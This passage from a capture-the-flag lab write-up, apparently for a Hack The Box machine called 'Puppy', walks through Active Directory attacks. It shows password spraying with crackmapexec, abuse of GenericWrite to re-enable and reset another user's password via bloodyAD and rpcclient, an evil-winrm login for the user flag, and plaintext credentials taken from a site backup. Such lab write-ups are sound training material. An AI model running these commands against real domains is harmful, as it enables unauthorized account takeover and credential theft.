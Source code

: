 ## 6. Password Spraying

Create user and password lists, then run:  
```bash
crackmapexec smb 10.10.11.70 -u users.txt -p passwords_only.txt
```

**Valid Credentials Found:**  
- **Username:** ant.edwards  
- **Password:** Antman2025!

## 7. Escalation: Write Access to adam.silver

Run BloodHound again as `ant.edwards`.  

**Finding:** `GenericWrite` on user `adam.silver`.

Check if account is disabled:  
```bash
crackmapexec smb 10.10.11.70 -u 'ADAM.SILVER' -p 'Password@987'
```

Enable and reset password:  
```bash
bloodyAD --host DC.puppy.htb -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac 'ADAM.SILVER' -f ACCOUNTDISABLE
rpcclient -U 'puppy.htb\ant.edwards%Antman2025!' 10.10.11.70 -c "setuserinfo ADAM.SILVER 23 Password@987"
```

Verify WinRM access:  
```bash
crackmapexec winrm 10.10.11.70 -u 'ADAM.SILVER' -p 'Password@987' -d puppy.htb
```

Login and grab user flag:  
```bash
evil-winrm -i 10.10.11.70 -u 'ADAM.SILVER' -p 'Password@987'
cd Desktop
type user.txt
```

## 8. Loot: Website Backup

Check `C:\Backups` and download:  
- `site-backup-2024-12-30.zip`

Extract and inspect:  
```bash
unzip site-backup-2024-12-30.zip
cat nms-auth-config.xml.bak
```

**Credentials Found:**  
- **User:** steph.cooper  
- **Password:** ChefSteph2025!
